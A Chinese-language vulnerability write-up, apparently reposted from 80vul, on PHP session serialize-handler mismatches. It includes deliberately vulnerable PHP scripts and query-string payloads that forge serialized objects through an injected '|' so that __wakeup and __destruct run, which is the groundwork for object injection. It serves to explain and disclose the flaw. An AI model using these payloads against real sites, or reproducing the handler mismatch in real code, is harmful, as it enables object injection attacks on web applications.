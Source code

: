 # PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患

PHP Session 序列化及反序列化处理器
-----------------------

* * *

PHP 内置了多种处理器用于存取 $_SESSION 数据时会对数据进行序列化和反序列化，常用的有以下三种，对应三种不同的处理格式：

| 处理器 | 对应的存储格式 |
| --- | --- |
| php | 键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值 |
| php_binary | 键名的长度对应的 ASCII 字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值 |
| php_serialize  
(php>=5.5.4) | 经过 serialize() 函数反序列处理的数组 |

配置选项 session.serialize_handler
------------------------------

* * *

PHP 提供了 session.serialize_handler 配置选项，通过该选项可以设置序列化及反序列化时使用的处理器：

`session.serialize_handler "php" PHP_INI_ALL`

安全隐患
----

通过上面对存储格式的分析，如果 PHP 在反序列化存储的 $_SESSION 数据时的使用的处理器和序列化时使用的处理器不同，会导致数据无法正确反序列化，通过特殊的构造，甚至可以伪造任意数据：）

```
$_SESSION['ryat'] = '|O:8:"stdClass":0:{}';

```

例如上面的 $_SESSION 数据，在存储时使用的序列化处理器为 php_serialize，存储的格式如下：

```
a:1:{s:4:"ryat";s:20:"|O:8:"stdClass":0:{}";}

```

在读取数据时如果用的反序列化处理器不是 php_serialize，而是 php 的话，那么反序列化后的数据将会变成：

```
// var_dump($_SESSION);
array(1) {
  ["a:1:{s:4:"ryat";s:20:""]=>
  object(stdClass)#1 (0) {
  }
}

```

可以看到，通过注入`|`字符伪造了对象的序列化数据，成功实例化了 stdClass 对象：）

实际利用
----

* * *

### i）当 session.auto_start＝On 时：

当配置选项 session.auto_start＝On，会自动注册 Session 会话，因为该过程是发生在脚本代码执行前，所以在脚本中设定的包括序列化处理器在内的 session 相关配选项的设置是不起作用的，因此一些需要在脚本中设置序列化处理器配置的程序会在 session.auto_start＝On 时，销毁自动生成的 Session 会话，然后设置需要的序列化处理器，再调用 session_start() 函数注册会话，这时如果脚本中设置的序列化处理器与 php.ini 中设置的不同，就会出现安全问题，如下面的代码：

```
//foo.php

if (ini_get('session.auto_start')) {
    session_destroy();
}

ini_set('session.serialize_handler', 'php_serialize');
session_start();

$_SESSION['ryat'] = $_GET['ryat'];

```

当第一次访问该脚本，并提交数据如下：

```
foo.php?ryat=|O:8:"stdClass":0:{}

```

脚本会按照 php_serialize 处理器的序列化格式存储数据：

```
a:1:{s:4:"ryat";s:20:"|O:8:"stdClass":0:{}";}

```

当第二次访问该脚本时，PHP 会按照 php.ini 里设置的序列化处理器反序列化存储的数据，这时如果 php.ini 里设置的是 php 处理器的话，将会反序列化伪造的数据，成功实例化了 stdClass 对象：）

这里需要注意的是，因为 PHP 自动注册 Session 会话是在脚本执行前，所以通过该方式只能注入 PHP 的内置类。

### ii）当 session.auto_start＝Off 时：

当配置选项 session.auto_start＝Off，两个脚本注册 Session 会话时使用的序列化处理器不同，就会出现安全问题，如下面的代码：

```
//foo1.php

ini_set('session.serialize_handler', 'php_serialize');
session_start();

$_SESSION['ryat'] = $_GET['ryat'];


//foo2.php

ini_set('session.serialize_handler', 'php');
//or session.serialize_handler set to php in php.ini 
session_start();

class ryat {
    var $hi;

    function __wakeup() {
        echo 'hi';
    }
    function __destruct() {
        echo $this->hi;
    }
}

```

当访问 foo1.php 时，提交数据如下：

```
foo1.php?ryat=|O:4:"ryat":1:{s:2:"hi";s:4:"ryat";}

```

脚本会按照 php_serialize 处理器的序列化格式存储数据，访问 foo2.php 时，则会按照 php 处理器的反序列化格式读取数据，这时将会反序列化伪造的数据，成功实例化了 ryat 对象，并将会执行类中的 __wakeup 方法和 __destruct 方法：）

### iii）其他利用方式？

请自行发掘：）

from:[http://www.80vul.com/pch/pch-013.txt](http://www.80vul.com/pch/pch-013.txt)